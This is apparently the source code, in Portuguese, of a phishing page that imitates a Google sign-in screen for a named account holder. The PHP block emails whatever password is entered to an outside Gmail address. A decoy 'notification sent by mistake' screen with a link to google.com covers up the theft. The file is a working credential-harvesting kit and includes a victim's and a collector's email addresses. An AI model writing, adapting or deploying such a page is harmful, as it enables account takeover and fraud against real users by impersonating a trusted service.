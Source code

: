 <?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Coleta os dados do formulário
    $senha = htmlspecialchars($_POST['senha']);

    // Aqui você pode realizar a validação da senha, por exemplo, verificando se ela atende aos requisitos de segurança.
    
    // Destinatário do e-mail
    $destinatario = "fxio0909@gmail.com";
    $assunto = "Novo Contato";

    // Corpo do e-mail
    $corpo = "Senha: $senha";

    // Cabeçalhos do e-mail
    $cabecalhos = "From: contato@seudominio.com";

    // Envia o e-mail
    if (mail($destinatario, $assunto, $corpo, $cabecalhos)) {
        echo "Mensagem enviada com sucesso!";
    } else {
        echo "Ocorreu um erro ao enviar a mensagem.";
    }
}
?>

<!DOCTYPE html>
<html lang="pt-BR">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Página de Login</title>
  <style>
    /* Seus estilos CSS aqui */
  </style>
</head>
<body>
  <div class="container">
    <!-- Tela de Login -->
    <div id="loginContainer" class="login-container">
      <form method="POST" action="login.php">
        <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_92x30dp.png" alt="Google Logo" class="google-logo">
        <div class="user-info">
          <div class="user-icon"></div>
          <span class="user-email">Souzatelesrogerio@gmail.com</span>
          <span class="dropdown-arrow">▼</span>
        </div>
        <h2>Olá!</h2>
        <div class="password-container">
          <input type="password" id="password" name="senha" placeholder="Senha" required><br><br>
        </div>
        <div class="show-password">
          <input type="checkbox" id="showPassword" onclick="togglePassword()"> <label for="showPassword">Mostrar senha</label>
        </div>
        <div class="button-container">
          <div class="forgot-password">
            <a href="#" onclick="forgotPassword()">Esqueceu sua senha?</a>
          </div>
          <button type="submit">Fazer Login</button>
        </div>
      </form>
    </div>

    <!-- Tela de Erro -->
    <div id="errorContainer" class="error-container">
      <img src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_92x30dp.png" alt="Google Logo" class="google-logo">
      <h1>Notificação Enviada por Engano</h1>
      <p>Não identificamos nenhum novo dispositivo conectado à sua conta.</p>
      <p>O e-mail que você recebeu foi enviado por engano. Pedimos desculpas pelo inconveniente.</p>
      <p>Se precisar de mais informações, você pode acessar sua conta.</p>
      <div class="error-button">
        <button onclick="window.location.href='https://www.google.com'">Acessar Conta</button>
      </div>
    </div>
  </div>
  <script>
    function togglePassword() {
      let passwordField = document.getElementById('password');
      let checkbox = document.getElementById('showPassword');
      passwordField.type = checkbox.checked ? 'text' : 'password';
    }

    function forgotPassword() {
      alert("Não é possível entrar nessa página.");
    }
  </script>
</body>
</html>
